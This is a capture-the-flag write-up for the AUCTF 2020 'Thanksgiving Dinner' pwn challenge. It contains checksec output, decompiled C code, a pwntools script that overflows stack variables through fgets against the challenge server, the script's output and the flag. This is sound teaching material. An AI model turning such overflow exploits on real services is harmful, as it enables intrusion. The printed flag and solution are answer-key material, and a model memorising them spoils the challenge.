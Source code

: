 # AUCTF 2020

## Thanksgiving Dinner

> 408
> 
> I just ate a huge dinner. I can barley eat anymore... so please don't give me too much!
> 
> `nc challenges.auctf.com 30011`
>
> Note: ASLR is disabled for this challenge
>
> Author: nadrojisk
>
> [turkey](turkey)

Tags: _pwn_


### Analysis

#### Checksec

```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

No stack canary, look for buffer overflow first.

#### Decompile with Ghidra, cutter.re, r2, etc...

```
void vulnerable(void)
{
  char local_30 [16];
  int local_20;
  int local_1c;
  int local_18;
  int local_14;
  int local_10;
  
  puts("Hey I heard you are searching for flags! Well I\'ve got one. :)");
  puts("Here you can have part of it!");
  puts("auctf{");
  puts("\nSorry that\'s all I got!\n");
  local_10 = 0;
  local_14 = 10;
  local_18 = 0x14;
  local_1c = 0x14;
  local_20 = 2;
  fgets(local_30,0x24,stdin);
  if ((((local_10 == 0x1337) && (local_14 < -0x14)) && (local_1c != 0x14)) &&
     ((local_18 == 0x667463 && (local_20 == 0x2a)))) {
    print_flag();
  }
  return;
}
```

`fgets` will read 35 (0x24 - 1) characters into `local_30` overrunning local_20 - local10.  The required conditions to get the flag are pretty clear.


### Exploit

#### Code

```
#!/usr/bin/env python3

from pwn import *

payload  = 16 * b'A'
payload += p32(0x2a)
payload += p32(0x0)
payload += p32(0x667463)
payload += p32(2**32 - 0x14 - 1)
payload += p32(0x1337)

#p = process('./turkey')
p = remote('challenges.auctf.com', 30011)
p.recvuntil('got!\n\n')
p.sendline(payload)
p.stream()
```

#### Output

```
# ./exploit.py
[x] Opening connection to challenges.auctf.com on port 30011
[x] Opening connection to challenges.auctf.com on port 30011: Trying 157.245.252.113
[+] Opening connection to challenges.auctf.com on port 30011: Done
Wait... you aren't supposed to be here!!
auctf{I_s@id_1_w@s_fu11!}
```

#### Flag

```
auctf{I_s@id_1_w@s_fu11!}
```
